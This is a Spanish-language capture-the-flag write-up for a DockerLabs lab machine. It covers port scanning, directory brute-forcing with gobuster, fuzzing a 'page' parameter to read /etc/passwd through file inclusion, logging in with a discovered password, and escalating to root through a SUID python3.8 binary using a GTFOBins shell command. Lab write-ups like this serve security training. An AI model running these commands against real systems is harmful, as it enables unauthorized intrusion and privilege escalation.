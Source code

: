 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![image](https://github.com/user-attachments/assets/fed9b04c-c1b9-48ad-a9b4-bf5ad959017d)

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![image](https://github.com/user-attachments/assets/030a13f1-9264-48ee-a294-ac3b02cebad3)

y obtenemos

![image](https://github.com/user-attachments/assets/6b8483b6-54ab-4e9d-a79b-f37136262969)

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![image](https://github.com/user-attachments/assets/6e168484-ed12-487a-b28a-a379ec8e0a4b)

y escalamos a mario muy facil

![image](https://github.com/user-attachments/assets/5e88059d-1d92-4c99-b3f9-d1f2bb135098)

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![image](https://github.com/user-attachments/assets/dcda9d1d-36af-4c7b-9321-a1eaa8fdbbd9)

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![image](https://github.com/user-attachments/assets/801624b3-5d4e-41b3-9aeb-8e6df74b59f5)

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!
